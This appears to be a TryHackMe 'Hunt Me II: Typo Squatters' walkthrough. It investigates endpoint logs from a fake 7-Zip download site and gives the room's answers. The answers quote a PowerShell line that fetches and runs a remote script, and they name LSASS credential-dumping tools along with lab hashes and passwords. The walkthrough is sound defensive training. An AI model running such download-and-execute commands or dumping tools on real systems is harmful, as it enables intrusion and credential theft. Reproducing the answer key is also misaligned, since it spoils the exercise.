







# TryHackMe-Hunt Me II: Typo Squatters


## Scenario
# Scenario
Just working on a  typical day as a software engineer, Perry received an encrypted 7z archive from his boss containing a snippet of a source code that must be completed within the day. Realizing that his current workstation does not have an application that can unpack the file, he spins up his browser and starts to search for software that can aid in accessing the file. Without validating the resource, Perry immediately clicks the first search engine result and installs the application.

Last September 26, 2023,
 one of the security analysts observed something unusual on the workstation owned by Perry based on the generated endpoint and network logs. Given this, your SOC lead has assigned you to conduct an in-depth investigation on this  workstation and assess the impact of the potential compromise.

## Investigation
I began searching for downloads from 7zipp[.]org and event_id 15 and found where the user downloaded the package.
 


Searching for dns events involving 7zipp[.]org revealed the IP address of the malicious domain


Searching for the pid where the malicious software was executed by searching for the filename and event id 1 


Following the execution chain, searching for event id 1 and the domain 7zipp[.]org, I was able to find the next step in the software process by looking for events after the execution time of 9/26/2023 @14:23.00.817
Below you can also see the new file that was downloaded and the service creation 


Looking further into the new service that was created, we can see that it was created and executed by the SYSTEM user so the process has the highest level of privilege.


We can search for lsass.dmp to see what tool was used to parse the data extracted



## Questions
What is the URL of the malicious software that was downloaded by the victim user?
```javascript
http://www.7zipp.org/a/7z2301-x64.msi
```
What is the IP address of the domain hosting the malware?
```javascript
206.189.34.218
```
What is the PID of the process that executed the malicious software?
```javascript
2532
```
Following the execution chain of the malicious payload, another remote file was downloaded and executed. What is the full command line value of this suspicious activity?
```javascript
powershell.exe, iex(iwr, http://www.7zipp.org/a/7z.ps1, -useb)
```
The newly downloaded script also installed the legitimate version of the application. What is the full file path of the legitimate installer?
```javascript
C:\Windows\Temp\7zlegit.exe
```
What is the name of the service that was installed?
```javascript
7zService
```
The attacker was able to establish a C2 connection after starting the implanted service. What is the username of the account that executed the service?
```javascript
SYSTEM
```
After dumping LSASS data, the attacker attempted to parse the data to harvest the credentials. What is the name of the tool used by the attacker in this activity?
```powershell
Invoke-PowerExtract
```
What is the credential pair that the attacker leveraged after the credential dumping activity? (format: username:hash)
```javascript
james.cromwell:B852A0B8BD4E00564128E0A5EA2BC4CF
```
After gaining access to the new account, the attacker attempted to reset the credentials of another user. What is the new password set to this target account?
```javascript
pwn3dpw!!!
```
What is the name of the workstation where the new account was used?
```javascript
WKSTN-02
```
After gaining access to the new workstation, a new set of credentials was discovered. What is the username, including its domain, and password of this new account?
```javascript
SSF\itadmin:NoO6@39Sk0!
```
Aside from mimikatz, what is the name of the PowerShell script used to dump the hash of the domain admin?
```javascript
Invoke-SharpKatz.ps1
```
What is the AES256 hash of the domain admin based on the credential dumping output?
```javascript
f28a16b8d3f5163cb7a7f7ed2c8f2cf0419f0b0c2e28c15f831d050f5edaa534
```
After gaining domain admin access, the attacker popped ransomware on workstations. How many files were encrypted on all workstations?
```javascript
46
```


https://medium.com/@0x4C1D/try-hack-me-hunt-me-ii-typo-squatters-walkthrough-8da58af050d0
